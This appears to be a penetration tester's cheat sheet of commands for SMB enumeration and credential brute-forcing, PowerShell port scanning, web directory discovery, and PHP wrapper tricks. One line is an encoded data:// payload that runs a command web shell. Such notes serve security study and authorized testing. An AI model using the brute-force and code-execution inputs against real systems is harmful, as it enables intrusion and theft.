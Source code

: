 - SMBClient
	- -L [host] lists shares
	- -I [IP]
	- -D [directory]
	- -U [domain]/[username%[password]]
	- -N don't use a password
	- -c [command]
```
smbclient -N -L //<HOST>
```
```
smbclient //<HOST>/<SHARE>
```
```
# To get all files recursively
mask ""
recurse ON
prompt OFF
mget *
```
- SMBGet
	- Download all files
```
smbget -R smb://<HOST>/<DISK>
```
- Bruteforce SMB
```
crackmapexec smb <HOST> -u <USER/USERS/USER_FILE> -p <PASSWORD/PASSWORDS/PASSWORD_FILE> --continue-on-success
```
### Port Scanning in powershell
- Test one port
```
Test-NetConnection -Port <PORT> <IP>
```
- Automating port scan of first 1024 ports
```
1..1024 | % {echo ((New-Object Net.sockets.TcpClient).Connect("IP", $_)) "TCP port $_ is open"} 2>$null
```
### HTTP/S
- View source code
- identify version or CMS and check active exploits
- check robots.txt
- look for hostname and add relevant one to /etc/hosts file
- Look at PHP wrappers
```
php://filter/resource=[file].php ⇒ display contents of PHP file
php://filter/convert.base64-encode/resource=[file].php

data://text/plain,<?php[code]?> ⇒ run PHP code
data://text/plain;base64,[base64] ⇒ run base 64 encoded PHP code
data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls
```
- Directory and file discovery
```
gobuster dir -u <URL> -w <WORDLIST_FILE>
```
```
python3 dirsearch.py -u <URL> -w <WORDLIST_FILE>
```
```
gobuster dir -u <URL> -x pdf,txt,php -w <WORDLIST_FILE>
```
```
gobuster dir -u <URL> -x <FILE_EXTENSIONS> -w <WORDLIST> -U <AUTH_USERNAME> -P <AUTH_PASSWORD> -s <INVALID_STATUS_CODES> -t <NUMBER_OF_THREADS>
```